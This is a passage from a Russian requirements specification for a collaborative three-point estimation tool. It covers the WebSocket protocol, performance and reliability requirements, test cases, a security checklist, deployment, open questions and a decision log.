Подключение: `wss://<host>/api/v1/ws` с cookie сессии; затем клиент шлёт `{"op":"subscribe","project_id":"…","since":1050}`. Сервер проверяет членство и подписывает на `project:{id}` и, при праве, на `project:{id}:money`.

| Событие (сервер → клиент) | Данные |
|---|---|
| `node.created`, `node.updated`, `node.moved`, `node.deleted`, `node.restored` | Узел (поля без денег), `project_version`, автор |
| `branch.status` | Фаза, дисциплина, статус, автор |
| `cell.locked`, `cell.unlocked` | node_id, поле, пользователь (имя, инициалы, цвет) |
| `message.created`, `message.updated`, `thread.resolved` | Сообщение, узел |
| `presence` | Кто сейчас в проекте (список пользователей) |
| `project.updated` | Изменённые настройки (без денег) |
| `money.updated` (только канал money) | Ставки, курс, итоги в деньгах |
| `access.revoked` | Доступ к проекту отозван — клиент закрывает проект |
| `resync.required` | Клиент слишком отстал — перезагрузить дерево |

| Команда (клиент → сервер) | Назначение |
|---|---|
| `subscribe`, `unsubscribe` | Подписка на проект |
| `lock` {node_id, field}, `unlock`, `heartbeat` | Мягкие блокировки (FR-TREE-31), продление каждые 10 с |

---

## 16. Нефункциональные требования

### 16.1. Производительность и объёмы

| ID | Требование | Как проверяется |
|---|---|---|
| NFR-PERF-01 | Расчётный профиль: 300 пользователей в системе, до 50 одновременно, до 30 активных проектов, до 15 человек одновременно в одном проекте | Нагрузочный тест (Locust) |
| NFR-PERF-02 | Открытие рабочего экрана проекта на 2 000 узлов — ≤ 2 с до интерактивности (95-й перцентиль, сеть 100 Мбит, ноутбук Core i5 / 8 ГБ); на 5 000 узлов — ≤ 4 с | Playwright + трассировка |
| NFR-PERF-03 | Отклик на ввод O/R/P: пересчёт сумм на экране ≤ 100 мс; подтверждение сервером ≤ 300 мс (p95) | E2E-метрики |
| NFR-PERF-04 | Доставка правки другим участникам проекта ≤ 1 с (p95) | Нагрузочный тест с двумя клиентами |
| NFR-PERF-05 | Экспорт Excel для 2 000 узлов ≤ 10 с | Тест |
| NFR-PERF-06 | Прокрутка дерева 5 000 строк — без пропуска кадров ниже 30 fps | Профилирование |

### 16.2. Надёжность

| ID | Требование |
|---|---|
| NFR-REL-01 | Доступность в рабочее время (пн–пт 08:00–20:00 МСК) — 99%. Плановые работы — вне рабочего времени |
| NFR-REL-02 | RPO (сколько данных можно потерять) — 15 минут: непрерывное архивирование WAL + ежедневная полная копия. RTO (время восстановления) — 4 часа |
| NFR-REL-03 | Восстановление из резервной копии проверяется раз в квартал на тестовом стенде, результат фиксируется |
| NFR-REL-04 | Ни одна подтверждённая сервером правка не теряется при падении процесса приложения (запись в БД в транзакции до ответа клиенту) |
| NFR-REL-05 | Корректная работа при 2+ экземплярах API за Nginx (состояние — только в PostgreSQL и Redis) |

### 16.3. Совместимость и ограничения

| ID | Требование |
|---|---|
| NFR-COMP-01 | Браузеры: Chrome, Edge, Яндекс Браузер, Firefox — две последние стабильные версии. Safari — не требуется |
| NFR-COMP-02 | Экран от 1366×768 |
| NFR-COMP-03 | Сервер: Linux x86-64 (Astra Linux, РЕД ОС, Ubuntu 22.04+), Docker 24+ [Допущение — Q-06] |
| NFR-LIM-01 | Лимиты: 5 000 узлов в проекте, глубина 8 ниже ветки, 4 000 символов в сообщении, 2 000 в комментарии, 200 в названии |

### 16.4. Сопровождаемость

| ID | Требование |
|---|---|
| NFR-MNT-01 | Покрытие автотестами бэкенда ≥ 80% строк; расчётный модуль и модуль прав — 100% ветвлений |
| NFR-MNT-02 | Миграции БД только через Alembic, каждая с откатом (`downgrade`); миграции не ломают работу предыдущей версии приложения (expand → migrate → contract) |
| NFR-MNT-03 | Конфигурация — через переменные окружения (12-factor); список переменных — в README с описанием и значениями по умолчанию |
| NFR-MNT-04 | Структурированные логи JSON: время, уровень, request_id, user_id, project_id, событие |
| NFR-MNT-05 | Эндпоинты `/health/live` и `/health/ready` (БД, Redis), `/metrics` — доступны только из внутренней сети, не через публичный Nginx |

---

## 17. Тестирование и критерии приёмки

### 17.1. Обязательные автотесты

| ID | Что проверяет |
|---|---|
| TC-CALC-01 | Пример раздела 6.5: все значения E, σ, P80, УП, деньги, валюта совпадают до 0,01 на сервере и клиенте |
| TC-CALC-02 | Свойства (Hypothesis): сумма E детей = E узла; σ узла ≤ Σ σ детей; P80 ≥ E; ×N масштабирует E и σ линейно |
| TC-CALC-03 | Неверные и пустые листья исключаются из сумм; предупреждение содержит их число |
| TC-SEC-01 | Все маршруты API объявляют право; маршрут без права роняет тест |
| TC-SEC-02 | Полная матрица роль × действие × ветка (раздел 12.4) |
| TC-SEC-03 | В ответах всех эндпоинтов и событиях WS для эксперта и администратора нет ключей `rate`, `cost`, `currency`, `exchange_rate`, `money` (рекурсивный поиск по JSON) |
| TC-SEC-04 | Экспорт «часы» не содержит денег; экспорт «деньги» недоступен эксперту (403) |
| TC-SEC-05 | Формульные инъекции экранируются в Excel |
| TC-CONC-01 | Два клиента одновременно меняют разные поля одного листа — обе правки применены |
| TC-CONC-02 | Два клиента меняют одно поле с одной базовой версией — второй получает 409 с текущим значением |
| TC-CONC-03 | Переподключение после 100 пропущенных изменений — дерево совпадает с серверным |

### 17.2. Примеры критериев приёмки (Gherkin)

```gherkin
Функция: Сброс «готово» при правке

  Сценарий: Правка оценки в готовой ветке
    Дано ветка «Разработка › Бэкенд» в статусе «готово»
    И эксперт Бэкенда открыл лист «Авторизация» с оценкой 8–12–20
    Когда эксперт меняет R на 14
    То ветка «Разработка › Бэкенд» переходит в статус «черновик»
    И модератор получает уведомление «Ветка Бэкенд в фазе Разработка возвращена в черновик»
    И у листа «Авторизация» снимается отметка «Проверено»

  Сценарий: Правка комментария в готовой ветке
    Дано ветка «Разработка › Бэкенд» в статусе «готово»
    Когда эксперт меняет комментарий листа «Авторизация»
    То статус ветки остаётся «готово»
    И отметка «Проверено» у листа сохраняется
```

```gherkin
Функция: Деньги не видны эксперту

  Сценарий: Эксперт открывает статистику
    Дано в проекте заданы ставки и валюта USD
    Когда эксперт открывает экран «Статистика»
    То на экране нет строки «Стоимость» и сумм в валюте
    И ответ API /stats не содержит денежных полей
```

```gherkin
Функция: Аутентификация через AD

  Сценарий: Пользователь отключён в AD
    Дано выбран режим «Active Directory»
    И у пользователя i.ivanov в AD установлен флаг ACCOUNTDISABLE
    Когда i.ivanov вводит верный пароль
    То вход отклоняется с сообщением «Неверный логин или пароль»
    И в аудите появляется событие login.failed с причиной ad_account_disabled

  Сценарий: AD недоступен, вход суперадминистратора
    Дано все контроллеры AD недоступны
    Когда суперадминистратор вводит пароль приложения и код TOTP
    То вход выполняется успешно
```

```gherkin
Функция: Множитель

  Сценарий: Повторяющийся лист
    Дано лист «Создать типовой экран» с оценкой 4–6–8
    Когда эксперт ставит множитель 12
    То Σ E листа равна 72,0
    И σ листа равна 8,0
    И множитель показан выделенной плашкой «×12»
```

### 17.3. Чек-лист ручной проверки безопасности перед релизом

1. Вход: перебор пароля блокирует учётку после 5 попыток; сообщение одинаковое для несуществующего логина.
2. Cookie сессии: `HttpOnly`, `Secure`, `SameSite=Strict`, префикс `__Host-`.
3. Выход завершает сессию на сервере (повтор старого cookie → 401).
4. Блокировка пользователя администратором выкидывает его из открытой вкладки ≤ 1 мин.
5. Заголовки безопасности (12.5) присутствуют на всех ответах, включая ошибки и статику.
6. XSS: название узла `` выводится текстом везде: дерево, обсуждение, статистика, письмо, Excel, Word.
7. IDOR: подстановка UUID узла чужого проекта во все эндпоинты → 404.
8. Эксперт: поиск денег в Network-вкладке браузера, в WS-фреймах, в Excel.
9. Суперадминистратор не может открыть дерево проекта ни через интерфейс, ни через API.
10. В режиме AD: подмена сертификата контроллера (самоподписанный) → подключение отклоняется.
11. В логах приложения и Nginx нет паролей, токенов, cookie (поиск по тестовому паролю после прогона тестов).
12. Журнал аудита: попытка `UPDATE audit.audit_log` ролью приложения → ошибка прав; `audit verify` проходит.

### 17.4. Тестовые данные

Скрипт `estimator seed-demo` (только для тестовых стендов, на промышленном отказывается запускаться): справочники по умолчанию, 10 пользователей всех ролей, проект «Портал дилеров» из раздела 5.1 со ставками из 6.5, проект на 2 000 узлов для нагрузочных тестов.

---

## 18. Развёртывание и эксплуатация

### 18.1. Окружения

| Окружение | Назначение | Данные |
|---|---|---|
| dev | Локальная разработка (docker compose) | seed-demo |
| test | Автотесты CI, ручное тестирование | seed-demo, тестовый AD (Samba AD DC в контейнере) |
| stage | Приёмка, пилот | Копия справочников, тестовые проекты |
| prod | Промышленная эксплуатация | Реальные |

### 18.2. Состав поставки

- `docker-compose.yml`: `nginx`, `api` (2 реплики), `worker`, `beat`, `redis`; PostgreSQL — отдельный сервер или управляемый кластер компании (рекомендуется), допускается контейнер для пилота.
- `.env.example` с полным списком переменных.
- Консольные команды (`estimator …`): `migrate`, `create-superadmin`, `reset-superadmin-totp`, `rotate-key`, `audit verify`, `audit purge`, `delete-project`, `seed-demo`.
- Скрипты резервного копирования (`pgbackrest` или `wal-g`) и инструкция восстановления.
- Руководство администратора и суперадминистратора, руководство пользователя (кратко, со скриншотами).

### 18.3. Обновление версии

1. Резервная копия БД.
2. `docker compose pull`.
3. `estimator migrate` (миграции совместимы с предыдущей версией, NFR-MNT-02).
4. Поочерёдный перезапуск `api` — пользователи видят кратковременное переподключение WebSocket без потери данных.
5. Проверка `/health/ready` и журнала.

### 18.4. Мониторинг (минимум)

Метрики: число активных WS-соединений, задержка доставки событий, p95 времени ответа API по эндпоинтам, ошибки 5xx, неуспешные входы в минуту (всплеск — признак подбора), длина очереди Celery, время последней успешной синхронизации AD, время последнего бэкапа. Оповещения: 5xx > 1% за 5 минут, неуспешных входов > 50 за 5 минут, синхронизация AD не выполнялась > 26 часов, бэкап старше 26 часов.

---

## 19. Открытые вопросы и допущения

| № | Вопрос | Что заложено в спецификации сейчас | Влияние |
|---|---|---|---|
| Q-01 | Какое число идёт в КП: E или P80? Или модератор выбирает? | Показываются оба; экспорт содержит оба | Экспорт, верхняя полоса |
| Q-02 | Нужен ли расчёт календарного срока (недели) по составу команды уже в MVP? | Не входит в MVP | Объём MVP |
| Q-03 | Все участники видят все обсуждения проекта? | Да, личных переписок нет | Права, FR-DISC-08 |
| Q-04 | Корзина удалённых узлов: срок хранения | До архивации проекта + 90 дней | FR-TREE-24 |
| Q-05 | Нужен ли вход без пароля (Kerberos/SSO) в режиме AD? | Не в MVP, вход логином и паролем AD | Аутентификация |
| Q-06 | Целевая ОС и требования к сертифицированным средствам (ФСТЭК, импортозамещение)? | Linux + Docker, без сертификации | Развёртывание, выбор ОС и СУБД (возможно, Postgres Pro) |
| Q-07 | Максимальное число суперадминистраторов | 3 | FR-SA-05 |
| Q-08 | Нужен ли перенос оценок из Cash-Meter? | Нет | Объём, модель данных |
| Q-09 | Нужны ли вложения (файлы ТЗ) в проекте и в обсуждениях? | Нет, только ссылки | ИБ (антивирус, хранилище), объём |
| Q-10 | Есть ли корпоративный дизайн-стандарт (UI-кит, цвета, шрифты)? | Нет, решает дизайнер | Внешний вид |
| Q-11 | Требуется ли пентест/аттестация ИБ до запуска и кто его делает? | Да, силами ИБ компании | Сроки |
| Q-12 | Нужно ли уведомление на почту о входе с нового устройства для всех, а не только админов? | Только админы и суперадмины | SEC-AUTH-06 |
| Q-13 | Срок автоархивации завершённых проектов | 180 дней | BR-PRJ-03 |
| Q-14 | Поле «Результат пресейла» (выигран/проигран) — нужно? | Да, необязательное | Калибровка норм в будущем |
| Q-15 | Может ли администратор видеть содержимое проекта для поддержки пользователей? | Нет, только реестр; доступ — если модератор добавит в проект | Права |

### 19.1. Вопросы по итогам ревью v0.2 (03.11.2026)

Вопросы ниже появились при независимом ревью спецификации. Они сгруппированы по темам и будут разобраны с заказчиком отдельно. Дефекты, которые не требуют решения заказчика (противоречия, арифметика, битые ссылки), собраны в отдельном списке замечаний и будут исправлены в следующей версии.

**Аутентификация и AD**

| № | Вопрос | Что заложено в спецификации сейчас | Влияние |
|---|---|---|---|
| Q-16 | Нужно ли заводить AD-пользователей в приложении до их первого входа (поиск по каталогу), чтобы модератор мог сразу назначить их в проект? | Пользователь появляется только при первом входе (JIT); до этого его нельзя назначить ни в проект, ни на роль | FR-AUTH-AD-06, 3.2 «Администратор», FR-PRJ-01, FR-PRJ-04, FR-HOME-01 |
| Q-17 | Допустимо ли выдавать системную роль «Администратор» через группу AD? Тогда роль фактически выдаёт владелец группы в AD, а не суперадминистратор, и без step-up | Допустимо: таблица «группа AD → Администратор/Модератор/Пресейл» | FR-AUTH-AD-07, 3.2 «Суперадминистратор», 3.3, SEC-AUTH-05, FR-SA-04 |
| Q-18 | Какой срок отключения доступа уволенного сотрудника допустим? Сейчас отключение в AD действует только после ночной синхронизации, а открытая сессия живёт до 12 ч | Синхронизация раз в сутки в 03:00; открытые сессии работают до истечения | FR-AUTH-AD-08, FR-AUTH-AD-09, FR-SESS-02 |
| Q-19 | Как устроен AD: один домен или лес из нескольких доменов, несколько UPN-суффиксов, нужен ли Global Catalog (3268/3269)? | Один Base DN и список контроллеров одного домена | FR-AUTH-AD-01, users.login / ad_object_guid (14.2) |
| Q-20 | Нужен ли на практике переход AD → «Приложение»? Допустимо ли при переходе «Приложение» → AD сопоставлять учётки по email (риск привязать чужую учётку)? | Оба направления разрешены; сопоставление по логину, затем по email | FR-AUTH-SW-01 |
| Q-21 | Распространяется ли блокировка после 5 неудачных попыток на суперадминистратора? Сейчас любой может держать break-glass учётку заблокированной, перебирая её логин | Блокировка общая для всех учёток | FR-LOCK-01, FR-SA-03, BR-ROLE-03 |
| Q-22 | Как восстановить доступ, если суперадминистратор (или все суперадминистраторы) потерял пароль? | Есть только консольный сброс TOTP; «Забыли пароль» в режиме AD и консольной команды сброса пароля нет | FR-SA-01, FR-2FA-03, FR-AUTH-LOC-03, 18.2 |
| Q-23 | Делать ли TOTP обязательным для всех, кто видит деньги (модераторы, пресейл)? | Для обычных пользователей — по желанию | FR-2FA-02, BR-MONEY-*, 12.1 |
| Q-24 | Есть ли корпоративный стандарт ИБ по паролям и сессиям: срок действия пароля, сложность, лимит одновременных сессий? | Значения по NIST: срок не ограничен, состав символов не требуется; лимита сессий нет | FR-AUTH-LOC-02, FR-SESS-02, FR-SESS-04 |

**Роли, админка, суперадминистратор**

| № | Вопрос | Что заложено в спецификации сейчас | Влияние |
|---|---|---|---|
| Q-25 | Может ли администратор через реестр проектов добавить модератором себя (если у него есть роль «Модератор») или созданную им учётку? Это даёт ему доступ к деньгам в обход D-15 | Не запрещено: администратор передаёт проект и добавляет модераторов в любой проект | 3.3, 7.5 «Реестр проектов», BR-ROLE-01, BR-MONEY-04, D-15 |
| Q-26 | Нужен ли двойной контроль (подтверждение вторым суперадминистратором) для критичных действий: смена режима входа, смена SMTP, создание суперадминистратора или администратора, физическое удаление проекта? Без него суперадминистратор может перенаправить почту и перехватить ссылки установки пароля | Одно лицо со step-up | SEC-AUTH-05, FR-AUTH-SW-01, FR-SA-05, BR-PRJ-04, 12.2 |
| Q-27 | Кто независимо контролирует действия суперадминистратора? Нужна ли роль «Аудитор ИБ» только для чтения журнала? | Журнал целиком читает сам суперадминистратор | SEC-AUD-06, 3.3, 12.2 (Repudiation) |
| Q-28 | Кто владеет серверами и консолью (create-superadmin, delete-project, rotate-key, доступ к БД и бэкапам)? Тот же человек, что суперадминистратор в приложении? | Не определено; от этого зависит, реально ли разделение обязанностей из 3.2 | FR-SA-01, BR-PRJ-04, SEC-CRYPT-02, 18.2 |
| Q-29 | Что делать при увольнении или долгом отсутствии эксперта: передавать ли его ветки, ревьюерство и адресованные ему вопросы? Нужна ли операция «заменить участника во всех проектах»? | Учётку блокируют, человек остаётся в проектах и перестаёт получать уведомления | 7.5 «Пользователи», BR-ROLE-06, FR-PRJ-04 |
| Q-30 | Что происходит с проектом, у которого не осталось активного модератора (уволен, снята системная роль)? Можно ли удалить последнего модератора проекта? | Администратор передаёт проект вручную; защиты «последний модератор» нет | FR-PRJ-01, 3.3, 7.5 |
| Q-31 | Нужна ли роль руководителя направления пресейла, который видит все проекты и деньги и сводку по портфелю? | Такой роли нет; проекты видны только участникам | 3.1–3.3, BR-MONEY-*, 10 |
| Q-32 | Должен ли пресейл видеть ставки по дисциплинам или только итоговую сумму? | Видит ставки, курс и экспорт с деньгами | 3.3, 11.6 №7, FR-EXP-02 |
| Q-33 | Может ли ревьюер ставить «Проверено» на листья, которые оценил сам? | Не запрещено | FR-REV-01, 3.3 |
| Q-34 | Кто вправе анонимизировать пользователя и применимо ли это к администраторам? Что делать, если анонимизированная AD-учётка снова войдёт? | Анонимизируют суперадминистратор и администратор; поведение для AD не определено | SEC-PD-03, FR-AUTH-AD-06, 7.5 |

**Информационная безопасность**

| № | Вопрос | Что заложено в спецификации сейчас | Влияние |
|---|---|---|---|
| Q-35 | Приложение доступно только из внутренней сети (или через VPN) или публикуется в интернет? | Подразумевается внутренний контур, но нигде не зафиксировано | 12.2, FR-SA-06, SEC-WEB-*, NFR-REL-01 |
| Q-36 | Действует ли для оценок режим коммерческой тайны: гриф или водяной знак с ФИО в Excel/Word, учёт выгрузок? Нужно ли каждому эксперту выгружать в Excel весь проект? | Грифа нет; экспорт «часы» по всему проекту доступен всем участникам | FR-EXP-01..05, FR-CQ-04, 3.3, SEC-WEB-07 |
| Q-37 | Можно ли писать в письмах названия проектов и узлов? Они сами бывают конфиденциальными (например, «Интеграция с ФНС») | В письмах есть заголовки узлов со ссылками | FR-NOTIF-02, FR-NOTIF-03 |
| Q-38 | Какие сроки хранения у проектов (сейчас бессрочно), бэкапов, журнала аудита и логов приложения? Как анонимизация соотносится с бэкапами и SIEM? | Проекты не удаляются; аудит — 1 год; для бэкапов и логов срок не задан | BR-PRJ-04, SEC-AUD-04, SEC-PD-03, NFR-REL-02 |
| Q-39 | Обязательна ли интеграция с SIEM? В каком формате (RFC 5424 / CEF) и какие события должны поднимать тревогу? | Опционально; JSON в stdout или syslog | SEC-AUD-05, 18.4 |

**Расчёты и деньги**

| № | Вопрос | Что заложено в спецификации сейчас | Влияние |
|---|---|---|---|
| Q-40 | Как округлять деньги для КП: до рубля, до 100 или до 1 000 ₽, до целых в валюте? По какому правилу (математическое или банковское)? Итог — округлённая точная сумма или сумма округлённых строк? | «Деньги — 0 знаков», правило не задано (в 6.5 строки дают 948 366, а итог 948 367) | BR-CALC-03, 6.4, 6.5, FR-EXP-02, TC-CALC-01 |
| Q-41 | Ставки и итог указываются с НДС или без? Нужно ли показывать НДС отдельно? | НДС нигде не упоминается | 6.4, BR-MONEY-02, FR-EXP-02 |
| Q-42 | От каких фаз считается процент УП (включая «Гарантийную поддержку» и «Внедрение»)? Что будет, если фазу УП в проекте выключить: k = 0 или выключить нельзя? | «Все включённые фазы, кроме УП»; фазу УП можно выключить (макет настроек), а «Процент УП» при этом обязателен | 6.3, FR-PRJ-01, 7.5 «Фазы» |
| Q-43 | «Рабочие дни» для подсветки дедлайна считаются по производственному календарю РФ (с праздниками) или только без суббот и воскресений? | Календарь не задан | FR-HOME-01, 11.3 №4 |

**Функционал**

| № | Вопрос | Что заложено в спецификации сейчас | Влияние |
|---|---|---|---|
| Q-44 | Должны ли эксперты видеть архивные проекты, в которых участвовали (для калибровки и копирования веток)? Сохраняется ли право копировать ветки после исключения из проекта? | Архив видят только модераторы и пресейл; копировать можно из проектов, «где участвовал» | 4.2, FR-PRJ-03, BR-ROLE-06 |
| Q-45 | Нужны ли немедленные письма о вопросе, адресованном мне, или достаточно ежедневной сводки? | Только ежедневная сводка | FR-NOTIF-02 |
| Q-46 | Можно ли править или отзывать вопрос заказчику после выгрузки (статус «отправлен»)? | Автор правит своё сообщение, пока на него никто не ответил | FR-DISC-06, FR-CQ-02, 4.4 |

**Эксплуатация**

| № | Вопрос | Что заложено в спецификации сейчас | Влияние |
|---|---|---|---|
| Q-47 | Какие требования к отказоустойчивости: один сервер или кластер, HA для PostgreSQL и Redis? Допустимо ли, что при падении Redis все пользователи разлогиниваются? | 2 реплики API, Redis одиночный, доступность 99% в рабочее время | NFR-REL-01, NFR-REL-05, 13.2, FR-SESS-01 |
| Q-48 | Кто делает бэкапы и восстановление? Где и у кого хранятся ключ шифрования бэкапов и мастер-ключ приложения (эскроу)? При потере мастер-ключа секреты TOTP и пароли AD/SMTP невосстановимы | «Ключ хранится отдельно», владелец не назван | SEC-CRYPT-01, SEC-CRYPT-02, SEC-CRYPT-04, NFR-REL-02, NFR-REL-03 |
| Q-49 | Кто сопровождает приложение (вендор или внутренняя ИТ)? Какой SLA на исправление критичных уязвимостей и какие окна обновлений? | Обновления ежемесячно и по выходу уязвимостей | SEC-SDLC-03, 18.3 |

**Тестирование и приёмка**

| № | Вопрос | Что заложено в спецификации сейчас | Влияние |
|---|---|---|---|
| Q-50 | Достаточно ли тестового AD на Samba или для приёмки нужен тестовый OU в корпоративном AD (вложенные группы, UPN, отключение учёток)? | Samba AD DC в контейнере | 18.1, FR-AUTH-AD-* |
| Q-51 | Кто и как измеряет базовую линию Cash-Meter для цели «−30%»? Ведут ли пилотные проекты параллельно в двух системах? | Метрика задана, способ получения базовой линии — нет | 1.3 |
| Q-52 | Кто подписывает приёмку и по каким критериям: участники UAT, порог по дефектам, обязательные тест-наборы? | Есть список автотестов и чек-лист ИБ, процедуры приёмки нет | 17, 1.3 |

---

## 20. Журнал решений

Краткая запись ключевых решений, чтобы через полгода было понятно, почему сделано именно так.

| № | Решение | Альтернатива, от которой отказались | Причина |
|---|---|---|---|
| D-01 | Дерево: Фаза → Дисциплина → свободная декомпозиция | Функциональное дерево «модуль → функция» общее для всех дисциплин | Отклонено заказчиком: каждая дисциплина режет работу по-своему (бэкенд по функциям, фронтенд по экранам) |
| D-02 | Фазы — справочник компании | Эксперты создают стадии, модератор маппит (концепция «Живая матрица») | Сопоставимость между проектами без ручного маппинга |
| D-03 | Один рабочий экран для всех ролей, отличие — только права и деньги | Разные экраны модератора и эксперта | Люди показывают экран друг другу и видят одно и то же |
| D-04 | Модератор правит листья напрямую, с историей и событием | Правка модератора как предложение, которое эксперт принимает/оспаривает | Решение заказчика: быстрее; прозрачность обеспечивает лента событий |
| D-05 | Мягкая блокировка ячейки, не строки | Блокировка строки (Cash-Meter) | Главная жалоба на Cash-Meter |
| D-06 | Суммы считаются на лету, не хранятся | Хранимые суммы в узлах | Нет каскадных блокировок в БД при параллельной работе |
| D-07 | σ листа × N (полная корреляция) | √N | Одна норма — одна ошибка для всех повторов |
| D-08 | УП — процент от работ, без листьев | УП как обычная фаза с листьями | Стандартная практика компании, 18% по умолчанию |
| D-09 | Ставки задаются в каждом проекте, нет общей сетки | Сетка ставок в админке | Решение заказчика: ставки зависят от проекта и заказчика; администратор денег не видит |
| D-10 | Курс валюты фиксируется в проекте вручную | Курс ЦБ автоматически | Воспроизводимость цифры КП |
| D-11 | Ctrl+Z нет, есть история значения | Отмена действий | Однозначность при совместной работе |
| D-12 | Суперадминистратор всегда входит локально с TOTP | Вход через AD | Break-glass при сбое AD; защита самой ценной учётки |
| D-13 | Серверные сессии в Redis, cookie HttpOnly | JWT | Мгновенный отзыв, защита от кражи токена через XSS |
| D-14 | Изменения — REST, события — WebSocket | Всё через WebSocket | Проверенные механизмы CSRF, rate limit, журналирования |
| D-15 | Суперадминистратор и администратор не видят деньги | Админы видят всё | Разделение обязанностей, коммерческая тайна |
| D-16 | Нормы типа — подсказка, не автоподстановка | Автозаполнение O/R/P нормой | Эксперт думает над цифрой, нетиповое не маскируется под типовое |

---

*Конец документа. Версия 0.2. Следующая итерация: ответы на открытые вопросы раздела 19, уточнение макетов после дизайна, детализация экрана статистики.*
